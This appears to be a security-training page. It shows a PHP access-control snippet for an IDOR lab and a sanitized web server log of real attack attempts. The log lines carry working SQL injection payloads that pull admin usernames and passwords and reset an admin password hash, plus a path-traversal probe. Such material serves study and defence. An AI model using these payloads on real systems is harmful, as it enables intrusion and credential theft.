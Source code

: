 ```
$acl->addRole('guest');
$acl->addRole('admin', 'guest');
$acl->addResource('acbd18db4cc2f85cedef654fccc4a4d8');
$acl->addResource('37b51d194a7513e45b56f6524f2d51f2');

// now we make assignments
$acl->allow('guest', 'acbd18db4cc2f85cedef654fccc4a4d8');
$acl->allow('admin', '37b51d194a7513e45b56f6524f2d51f2');

if(isset($_GET['img'])) {
    $resourceID = $_GET['img'];
    if(isset($resources[$resourceID]) && $acl->isAllowed($user, $resourceID)) {
	$image = $resources[$resourceID];
	$html = "<img src='vulnerabilities/idor/source/img/$image'>";
    }

}
```
## ERRATA

## Actual Attacks from Customer Access Log (sanitized)
```
[Sun Jul 21 23:05:10 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plus, referer: http://second.site.com//plus/ajax_common.php?act=hotword&query=%E9%8C%A6'%20a%3C%3End%201=2%20un%3C%3Eion%20sel%3C%3Eect%201,group_concat(0x23,0x23,0x23,admin_name,0x3a,pwd,0x3a,pwd_hash,0x23,0x23,0x23),3%20fr%3C%3Eom%20qs_admin%23%22
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plug, referer: http://second.site.com//plug/comment/commentList.asp?id=0%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now%28%29,null,1%20%20frmasterom%20{prefix}user
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/mx_form, referer: http://second.site.com//mx_form
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plus, referer: http://second.site.com//plus/recommend.php?aid=1
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/Images/del.gif
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/login/login_check.php?met_cookie_filter%5Ba%5D=a%27,admin_pass=md5(1234567)+where+id=1;+%23--
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/wap, referer: http://second.site.com//wap/?action=show&mod=admin%20where%20userid=1%20and%20(select%201%20from%20(select%20count(*),concat((select%20concat(0x23,username,0x23,password,0x23)%20from%20la_admin%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/news, referer: http://second.site.com//news/html/?410'union/**/select/**/1/**/from/**/(select/**/count(*),concat(floor(rand(0)*2),0x3a,(select/**/concat(0x23,0x23,0x23,user,0x3a,password,0x23,0x23,0x23)/**/from/**/pwn_base_admin/**/limit/**/0,1),0x3a)a/**/from/**/information_schema.tables/**/group/**/by/**/a)b/**/where'1'='1.html
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/news, referer: http://second.site.com//news/html/?410%27union/**/select/**/1/**/from/**/(select/**/count(*),concat(floor(rand(0)*2),0x3a,(select/**/concat(0x23,0x23,0x23,user,0x3a,password,0x23,0x23,0x23)/**/from/**/pwn_base_admin/**/limit/**/0,1),0x3a)a/**/from/**/information_schema.tables/**/group/**/by/**/a)b/**/where%271%27=%271.html
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/f, referer: http://second.site.com//f/job.php?job=getzone&typeid=zone&fup=../../do%5Cjs&id=514125&webdb%5Bweb_open%5D=1&webdb%5Bcache_time_js%5D=-1&pre=qb_label%20where%20lid=-1%20UNION%20SELECT%201,2,3,4,5,6,0,concat%280x23,username,0x23,password,0x23%29,9,10,11,12,13,14,15,16,17,18,19%20from%20qb_members%20limit%201%23
```